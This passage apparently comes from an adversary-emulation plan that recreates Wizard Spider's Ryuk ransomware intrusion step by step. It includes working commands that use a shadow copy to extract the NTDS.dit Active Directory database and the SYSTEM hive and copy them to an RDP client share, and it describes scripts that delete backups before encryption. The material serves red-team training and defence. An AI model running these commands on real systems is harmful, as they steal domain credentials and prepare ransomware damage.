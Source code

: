 ```bash
cls
```

```bash
# Wizard Spider has gained access to credentials via exported copies of the ntds.dit Active Directory database.[3]

vssadmin.exe create shadow /for=C:
```

You will get output resembling the following:

```
vssadmin output:
    Shadow Copy ID: {cb0a1e0b-e4d7-44f4-aacb-daed56db01ce}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1
```

:warning: Make sure the `\\\\?\GLOBALROOT...HarddiskVolumeShadowCopy1` path matches your output!

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\NTDS\NTDS.dit \\TSCLIENT\X\ntds.dit
```

```bash
copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\Windows\System32\config\SYSTEM \\TSCLIENT\X\VSC_SYSTEM_HIVE
```

```bash
reg SAVE HKLM\SYSTEM \\TSCLIENT\X\SYSTEM_HIVE
```

Notionally, Wizard Spider carves credentials offline from ntds.dit using tools like Impacket's secretsdump.py

### :microscope: Cited Intelligence

* <https://www.fireeye.com/blog/threat-research/2020/10/kegtap-and-singlemalt-with-a-ransomware-chaser.html>

<br>

## Step 9 - Ryuk Inhibit System Recovery

:microphone: `Voice Track:`

In step 9, Wizard Spider prepares to deploy an executable based on the Ryuk ransomware.

At the beginning of this step, Wizard Spider mounts the C$ share of a lateral host, toto / 10.0.0.8.

Files on Toto will be encrypted in the next step.

Next, Wizard Spider uploads two files to disk: kill.bat and window.bat.

These files are used to stop specific services and delete backups prior to encrypting the system.

---
